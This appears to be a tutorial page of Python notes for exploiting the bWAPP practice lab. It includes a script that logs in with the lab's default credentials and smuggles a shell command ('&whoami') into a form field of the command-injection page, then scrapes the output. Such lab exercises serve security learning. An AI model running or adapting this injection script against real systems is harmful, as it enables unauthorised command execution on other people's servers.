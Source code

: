 #### time

```python
import time

print("first")
time.sleep(1) #wait for delay 1 sec.
print("second")
```


#### Filteration of Response

```python
#Request URL: http://127.0.0.1/bWAPP/commandi.php
import requests
from bs4 import BeautifulSoup

url = "http://10.0.0.16/bWAPP/login.php"

values = {
    "login": "bee",
    "password": "bug",
    "security_level": 0,
    "form": "submit"
}

session = requests.session() # defining a session
r = session.post(url, data=values) # authentication

################# DATA #############################
#Request URL: http://10.0.0.16/bWAPP/commandi.php
#target: & `command` [INjection point]
#form: submit
####################################################

url2 = "http://10.0.0.16/bWAPP/commandi.php"

cmd = "whoami" #command to execute
#import sys
#cmd = sys.argv[1]
values = {
    "target":"&"+ cmd,
    "form": "submit"
}
r = session.post(url2,data=values) # login
soup = BeautifulSoup(r.content,'html5lib') #parsing html
test = soup.findAll('p') #finding data location
print(test[1].text) # printing data location
```


Those examples are really important to move further for exploitation of other bugs.
